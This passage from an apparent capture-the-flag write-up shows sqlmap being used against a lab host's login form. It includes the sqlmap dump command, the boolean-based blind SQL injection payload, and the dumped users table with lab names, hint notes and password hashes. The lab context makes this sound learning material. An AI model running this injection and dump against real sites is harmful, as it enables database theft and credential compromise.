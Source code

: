 ```
web application technology: Apache 2.4.29
back-end DBMS: SQLite
[18:59:56] [INFO] fetching tables for database: 'SQLite_masterdb'
[18:59:56] [INFO] fetching number of tables for database 'SQLite_masterdb'
[18:59:57] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[18:59:57] [INFO] retrieved: 
[1 table]
+-------+
| users |
+-------+
```
After that I dumped table users
```
$ sqlmap -u "http://hogwartz-castle.thm/login" --data="user=x&password=x" -p user -T users --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.9#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:02:19 /2022-06-04/

[19:02:19] [INFO] resuming back-end DBMS 'sqlite' 
[19:02:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: user=-5956' OR 9310=9310-- XEXb&password=x
---
[19:02:19] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: SQLite
[19:02:19] [INFO] resumed: CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not dddd)
[19:02:19] [INFO] fetching entries for table 'users'
[19:02:19] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[19:02:19] [INFO] resumed: 40
[19:02:19] [INFO] resumed: 0
[19:02:19] [INFO] resumed: Lucas Washington
[19:02:19] [INFO] resumed: contact administrator. Congrats on SQL injection... keep digging
[19:02:19] [INFO] resumed: c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
[19:02:19] [INFO] resumed: 0
[19:02:19] [INFO] resumed: Harry Turner
[19:02:19] [INFO] resumed: My linux username is my first name, and password uses best64
[19:02:19] [INFO] resumed: b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
[19:02:19] [INFO] resumed: 0
[19:02:19] [INFO] resumed: Andrea Phillips
[19:02:19] [INFO] resumed:  contact administrator. Congrats on SQL injection... keep digging
[19:02:19] [INFO] resumed: e1ed732e4aa925f0bf125ae8ed17dd2d5a1487f9ff97df63523aa481072b0b5ab7e85713c07e37d9f0c6f8b1840390fc713a4350943e7409a8541f15466d8b54
[19:02:19] [INFO] resumed: 0
[19:02:19] [INFO] resumed: Liam Hernandez
```